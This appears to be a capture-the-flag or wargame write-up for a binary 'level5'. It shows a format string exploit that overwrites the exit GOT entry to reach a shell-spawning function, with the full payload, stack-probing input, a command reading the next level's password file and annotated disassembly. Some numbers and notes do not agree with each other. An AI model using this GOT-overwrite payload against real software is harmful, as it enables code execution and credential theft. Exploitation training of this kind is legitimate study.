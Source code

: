 - attack: format string exploitation using Global Offset Table
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: v, o and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense1: fget
- defense2: function o with system call is non-called

Method:
- find the address of exit call in n
- find the address of o function
- find the exit (buffer) call position 
- write o function address instead of exit address through buffer
 
Info:
- positon of exit (buffer) in stack - 4
- 134513828 - same in decimal
- 080484a4 - address of o function
- 08049838 - address of exit function
- same in hex - \x38\x98\x04\x08

- offset code structure: 134513828 = 134513824 (o address) - 4 (buffer address)


Code:
objdump -d ./level5 # get the o function address
objdump -R level5 | grep exit # get the exit address
(python -c 'print "0000" + " %p" * 15'; cat) | ./level5
$(python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"'; )
python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/ex ;  cat /tmp/ex - | ./level5

cat /home/user/level6/.pass
Functions

08048504 <main>:
 8048504:       55                      push   %ebp
 8048505:       89 e5                   mov    %esp,%ebp
 8048507:       83 e4 f0                and    $0xfffffff0,%esp
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret

080484c2 <n>:
 80484c2:       55                      push   %ebp
 80484c3:       89 e5                   mov    %esp,%ebp
 80484c5:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484cb:       a1 48 98 04 08          mov    0x8049848,%eax
 80484d0:       89 44 24 08             mov    %eax,0x8(%esp)
 80484d4:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484e2:       89 04 24                mov    %eax,(%esp)
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt> # defence
 80484ea:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484f0:       89 04 24                mov    %eax,(%esp)
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt> # exploit
 80484f8:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt> # exploit

 080484a4 <o>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       83 ec 18                sub    $0x18,%esp
 80484aa:       c7 04 24 f0 85 04 08    movl   $0x80485f0,(%esp)
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt> # exploit 
 80484b6:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

